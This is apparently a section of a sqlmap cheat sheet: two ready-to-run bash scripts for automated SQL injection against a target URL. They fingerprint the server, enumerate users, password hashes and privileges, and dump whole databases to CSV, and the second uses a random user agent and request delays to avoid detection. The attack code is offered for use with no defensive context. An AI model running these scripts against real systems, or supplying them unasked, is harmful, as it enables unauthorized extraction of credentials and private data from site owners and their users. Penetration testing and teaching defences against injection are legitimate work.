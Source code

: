 ## Automation Scripts

### Complete Assessment Script
```bash
#!/bin/bash
URL="http://example.com/vuln.php?id=1"
OUTPUT_DIR="sqlmap_scan_$(date +%Y%m%d_%H%M%S)"

mkdir -p "$OUTPUT_DIR"

echo "[+] Phase 1: Detection and basic information"
sqlmap -u "$URL" --batch --current-db --current-user --hostname --is-dba --output-dir="$OUTPUT_DIR/phase1"

echo "[+] Phase 2: User and privilege enumeration"
sqlmap -u "$URL" --batch --users --passwords --privileges --roles --output-dir="$OUTPUT_DIR/phase2"

echo "[+] Phase 3: Database enumeration"
sqlmap -u "$URL" --batch --dbs --tables --count --output-dir="$OUTPUT_DIR/phase3"

echo "[+] Phase 4: Data extraction"
sqlmap -u "$URL" --batch -D target_db --dump --dump-format=CSV --output-dir="$OUTPUT_DIR/phase4"
```

### Advanced Exploitation Script
```bash
#!/bin/bash
URL="$1"
DATABASE="$2"

if [ -z "$URL" ]; then
    echo "Usage: $0 <target_url> [database]"
    exit 1
fi

echo "[*] Starting comprehensive SQLmap assessment for: $URL"

# Detection phase
sqlmap -u "$URL" --batch --level=3 --risk=2 --fingerprint

# Database enumeration
if [ -z "$DATABASE" ]; then
    sqlmap -u "$URL" --batch --dbs
    echo "[!] Please specify a database from the list above"
    exit 1
fi

# Full data extraction with optimization
sqlmap -u "$URL" --batch \
    -D "$DATABASE" \
    --tables \
    --dump \
    --threads=5 \
    --delay=1 \
    --random-agent \
    --output-dir="results_${DATABASE}"
```
